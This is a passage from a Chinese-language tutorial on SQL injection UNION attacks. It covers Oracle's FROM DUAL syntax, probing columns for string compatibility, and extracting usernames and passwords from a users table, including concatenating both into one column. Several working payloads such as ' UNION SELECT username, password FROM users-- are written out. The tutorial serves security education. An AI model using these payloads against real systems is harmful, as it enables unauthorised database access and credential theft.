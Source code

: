 使用NULL的原因是因为每个列的数据类型有个兼容问题，NULL可以转换成任何常用的数据类型，可以最大限度地提高payload得以成功的机会。

在Orcale数据库中，每一个`SELECT`查询都需要一个`FROM`关键字并指定一个有效的表。Orcale有一个`double`内置表。因此，payload在Orcale数据库中可以是这样：

```sql
' UNION SELECT NULL FROM DUAL--
```

#### 查找有用的列

通常查找的数据将采用字符串的格式，因此攻击者需要再原本查询结果中找到一个或多个数据类型为字符串或者和它兼容的列。

确定了列的数量后，可以提交一系列的`UNION SELECT`的paylaod来测试每个列，以测试是否可以保存字符串数据，例如：

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
```

```sql
' UNION SELECT NULL,'a',NULL,NULL--
```

```sql
' UNION SELECT NULL,NULL,'a',NULL--
```

```sql
' UNION SELECT NULL,NULL,NULL,'a'--
```

如果列的数据类型和字符串数据不兼容就会报错，如：

```
Conversion failed when converting the varchar value 'a' to data type int.
```

如果没有报错。并且网站的响应包含一些附加内容（注入的字符串值），就可以用这个列来查询字符串数据。

#### 查询数据

当确定了列的个数和有用的列的位置，就可以开始查询数据了。

假设：

- 原本的查询返回两列，两列都可以保存字符串数据
- 注入点和上述一样是`WHERE`中带单引号的字符串
- 数据库中有一个名为`users`的表，其中由`username`和`password`两列

这样的话，相关payload应当是这样：

```sql
' UNION SELECT username, password FROM users--
```

使用这样的payload的关键也在于攻击者知道表名和列名。现在数据库都提供了一些方法去确定它有那些表和列。

##### 在一个列中查询多个值

还是上述的例子，如果只有一个合适的列的话，可以把这些值连接到一起并在中间加上用于区分的分隔符。例如，在Orcale中，payload可以是这样：

```sql
' UNION SELECT username || '~' || password FROM users--
```
